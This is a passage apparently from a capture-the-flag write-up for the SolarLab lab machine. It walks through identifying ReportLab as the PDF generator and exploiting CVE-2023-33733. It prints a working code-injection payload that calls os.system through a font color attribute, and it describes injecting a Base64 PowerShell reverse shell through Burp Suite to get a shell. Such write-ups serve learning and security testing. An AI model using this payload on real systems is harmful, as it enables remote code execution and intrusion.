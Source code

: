 ![alt text](image-15.png)

Let's download the PDF and see what platform the website is using to generate PDF:

`exiftool output.pdf`

![alt text](image-16.png)

**report.solarlab.htb** is using **ReportLab** for geerating PDFs.

## ReportLab RCE

Goolging for ReportLab vulnerability, it seems that there's an [RCE vulnerability](https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897
) for it:

![alt text](image-17.png)

[CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733/tree/master) will allow us to exploit RCE.



We can use the following payload to execute commands on the target:

```
<para>
              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('commands_to_execute') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
                exploit
                </font>
            </para>""", content)
build_document(doc, content)
```

In order to spawn a reverse shell, let's use [revshells.com](https://www.revshells.com/) and generate powershell reverse shell payload encoded with Base64:

![alt text](image-22.png)

Now, let's intercept any of the **Generate PDF** request through Burp Suite.

We will modifying the part where we indicate **training_request**:

![alt text](image-20.png)

Now let's copy paste the payload from revshell.com as such:

![alt text](image-21.png)

Forwarding the request, we get reverse shell connection on our netcat listener as Blake:

![alt text](image-18.png)
